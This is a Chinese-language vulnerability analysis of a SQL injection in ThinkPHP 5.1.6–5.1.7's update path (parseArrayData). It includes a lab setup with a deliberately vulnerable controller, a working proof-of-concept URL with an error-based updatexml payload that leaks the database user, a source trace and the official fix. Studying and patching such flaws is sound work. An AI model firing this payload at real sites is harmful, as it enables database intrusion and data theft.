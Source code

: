 ```yaml
---
title: 5.1.6 <= Thinkphp <= 5.1.7（非最新的 5.1.8 版本也可利用）sql注入漏洞
id: zhfly3167
---
```


# 5.1.6 <= Thinkphp <= 5.1.7（非最新的 5.1.8 版本也可利用）

## 一、漏洞简介

本篇文章，将分析 **ThinkPHP** 中存在的 **SQL注入** 漏洞（ **update** 方法注入）。本次漏洞存在于 **Mysql** 类的 **parseArrayData** 方法中由于程序没有对数据进行很好的过滤，将数据拼接进 **SQL** 语句，导致 **SQL注入漏洞** 的产生

## 二、漏洞影响

5.1.6<=ThinkPHP<=5.1.7 (非最新的 **5.1.8** 版本也可利用)。

## 三、复现过程

### 漏洞环境

通过以下命令获取测试环境代码：

```
composer create-project --prefer-dist topthink/think tpdemo 
```

将 **composer.json** 文件的 **require** 字段设置成如下：

```
"require": {
    "php": ">=5.6.0",
    "topthink/framework": "5.1.7"
} 
```

然后执行 `composer update` ，并将 **application/index/controller/Index.php** 文件代码设置如下：

```
<?php
namespace app\index\controller; `class Index

{

public function index()

{

$username = request()->get(‘username/a’);

db(‘users’)->where([‘id’ => 1])->update([‘username’ => $username]);

return ‘Update success’;

}

}` 
```

在 **config/database.php** 文件中配置数据库相关信息，并开启 **config/app.php** 中的 **app_debug** 和 **app_trace** 。创建数据库信息如下：

```
create database tpdemo;
use tpdemo;
create table users(
	id int primary key auto_increment,
	username varchar(50) not null
);
insert into users(id,username) values(1,'mochazz'); 
```

### poc

```
http://0-sec.org:8000/index/index/index?username[0]=point&username[1]=1&username[2]=updatexml(1,concat(0x7,user(),0x7e),1)^&username[3]=0 
```

访问链接，即可触发 **SQL注入漏洞** 。（没开启 **app_debug** 是无法看到 **SQL** 报错信息的）

![1.png](../img/9bc5749bd55273aeebb09d6fd739a278.png)

### 漏洞分析

![2.png](../img/dbf5f4580f62a31a38cf519ef3bea8f5.png)

首先在官方发布的 **5.1.9** 版本更新说明中，发现其中提到该版本包含了一个安全更新，我们可以查阅其 **commit** 记录，发现其删除了 **parseArrayData** 方法，这处 **case** 语句之前出现过 **insert** 注入，所以比较可疑。

![3.png](../img/7f8beb22add8072f65b0cc5987c1c321.png)

接着我们直接跟着上面的攻击 **payload** 来看看漏洞原理。首先， **payload** 数据经过 **ThinkPHP** 内置方法的过滤后（不影响我们的 **payload** ），直接进入了 **Query** 类的 **update** 方法，该方法调用了 **Connection** 类的 **update** 方法，该方法又调用了 **$this->builder** 的 **insert** 方法，这里的 **$this->builder** 为 **\think\db\builder\Mysql** 类，该类继承于 **Builder** 类，代码如下：

![4.png](../img/c528b37874292409ae482846130137fc.png)

在 **Builder** 类的 **update** 方法中，调用了 **parseData** 方法。这个方法中的 **case** 语句之前存在 **SQL注入漏洞** ，现已修复，然而却多了 **default** 代码段，而这段代码也是在新版本中被删除的。

![5.png](../img/0cdacc1d9fa0087c17ceef2d311c5ade.png)

我们跟进到 **parseArrayData** 方法，发现其中又将可控变量进行拼接，其变量来源均来自用户输入。之后的过程就和之前的 **insert** 注入一样，用 **str_replace** 将变量填充到 **SQL** 语句中，最终执行，导致 **SQL注入漏洞** 。

![6.png](../img/e2a71e1a6e9f3997ac4dd7392c6c0a47.png)

上面 **第15行** 的 **$result** 相当于 **$a('$b($c)')** 其中 **$a、$b、$c** 均可控。最后形成的 **SQL** 语句如下：

```
UPDATE `users`  SET `username` = $a('$b($c)')  WHERE  `id` = 1; 
```

接着我们想办法闭合即可。我们令 **$a = updatexml(1,concat(0x7,user(),0x7e),1)^** 、 **$b = 0** 、 **$c = 1** ，即：

```
UPDATE `users` SET `username` = updatexml(1,concat(0x7,user(),0x7e),1)^('0(1)') WHERE `id` = 1 
```

### 漏洞修复

官方修复方法比较暴力，直接将 **parseArrayData** 方法删除了。

![7.png](../img/bec2322a446216006e65bef5fda52642.png)

### 攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。

![8.png](../img/3334bc5c91c90a0a6044d4c1a5ae7899.png)

## 参考链接

> https://github.com/Mochazz/ThinkPHP-Vuln